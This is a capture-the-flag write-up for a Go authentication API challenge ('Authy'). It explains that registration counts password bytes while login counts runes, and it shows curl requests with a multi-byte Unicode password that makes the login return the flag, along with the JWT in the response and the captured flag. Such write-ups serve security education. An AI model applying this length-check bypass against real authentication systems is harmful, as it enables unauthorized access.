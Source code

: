 # Authy

## Description

> I have just learned Golang and trying to build a small authentication platform with it. It's a simple API so it should be secure right ?

## Write-Up

In `/registration`

```go
if len(user.Password) < 6 {
     log.Error("Password too short")
     resp := c.JSON(http.StatusConflict, helper.ErrorLog(http.StatusConflict, "Password too short", "EXT_REF"))
     return resp
}
```

In `/login`

```go
password := []rune(user.Password)
result.Token = helper.JwtGenerator(result.Username, result.Firstname, result.Lastname, os.Getenv("SECRET"))
if len(password) < 6 {
     flag := os.Getenv("FLAG")
     res := &Flag{
          Flag: flag,
     }
     resp := c.JSON(http.StatusOK, res)
     log.Info()
     return resp
}
```

More precisaly

```go
password := []rune(user.Password)
```

> `[]rune:` `[]rune` is a slice of runes. Runes in Go represent Unicode code points, which can be used to work with characters from various languages and symbol sets. Converting a string to a slice of runes allows you to access and manipulate individual characters more easily, especially in cases where multi-byte characters are involved.
>
> **String to Runes Conversion:**
>
> ```go
>
> str := "Hello, 世界" // A string containing both ASCII and non-ASCII characters
> runes := []rune(str) // Convert the string to a slice of runes
> 
> ```
>
> In the example above, the string "Hello, 世界" contains a mix of ASCII characters and non-ASCII characters (Chinese characters). Converting the string to a slice of runes allows you to work with each character individually, even if they are represented by multiple bytes in the original string due to Unicode encoding.

From there, we can think about **Text Normalization** Attack, where we use chars that can be interpreted as multiple chars when going through length processing, but with runes, it is considered as single chars :

> In Unicode and text normalization, there are certain situations where a single character, when normalized, may be represented as two or more characters. This typically happens with characters that have diacritics (accent marks), composed characters, or characters with compatibility mappings. Text normalization, specifically Unicode Normalization Forms (NFD, NFC, NFKD, NFKC), is used to ensure that equivalent sequences of characters are represented in a consistent way.
> 
> Here are a few examples of situations where a single character can be represented as two or more characters after normalization:
> 
>    **1.Diacritic Characters:** Some languages use diacritics (accent marks) to modify characters. In Unicode, these diacritics can be separate characters or combined with the base character. Normalization may result in combining or decomposing these characters. For example:
>
>    The character "é" (Latin small letter e with acute accent) can be represented as a single code point or as two code points: "e" + "´" (base character + combining acute accent).
>
>    **2.Composed Characters:** Some scripts allow characters to be composed of multiple elements. Normalization may decompose these composed characters into their constituent parts. For example:
>
>    The Devanagari script has characters like "क्ष" (ka + sha), which may be decomposed into two code points: "क" + "्" + "ष" (ka + virama + sha) after normalization.
>

So Let's try it out, First we register :

```
└─$ curl -X POST -H "Content-Type: application/json" -d '{"Username": "rivenche", "Firstname": "walid", "Lastname": "bembem", "Password": "žůžož"}' http://ae7297884e2848fbfea88.playat.flagyard.com/registration
```

We get :

```
{"username":"rivenche","firstname":"walid","lastname":"bembem","password":"$2a$05$JnHtLiI9fDx892T/.7G0N.mSYBFxOMXsj6LtShdlPeYh43wtZW.dq","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmaXJzdG5hbWUiOiJ3YWxpZCIsImxhc3RuYW1lIjoiYmVtYmVtIiwidXNlcm5hbWUiOiJyaXZlbmNoZSJ9.B2u2LZo3AgRfUDYz2lj27B1bMJh3nTuLeJnjlRca4NQ","date_created":"2023-10-08 16:19:13"}
```

From there, we try to login:

```
curl -X POST -H "Content-Type: application/json" -d '{"Username": "rivenche", "Password": "žůžož"}' http://ae7297884e2848fbfea88.playat.flagyard.com/login       
```

It gives us

```
{"flag":"BHFlagY{1823549c0056eb82b92c2a98dfc83624}"}
```

## Flag

BHFlagY{1823549c0056eb82b92c2a98dfc83624}


## More Information

- https://0xacb.com/normalization_table
- https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html
- https://stackoverflow.com/questions/26722450/remove-diacritics-using-go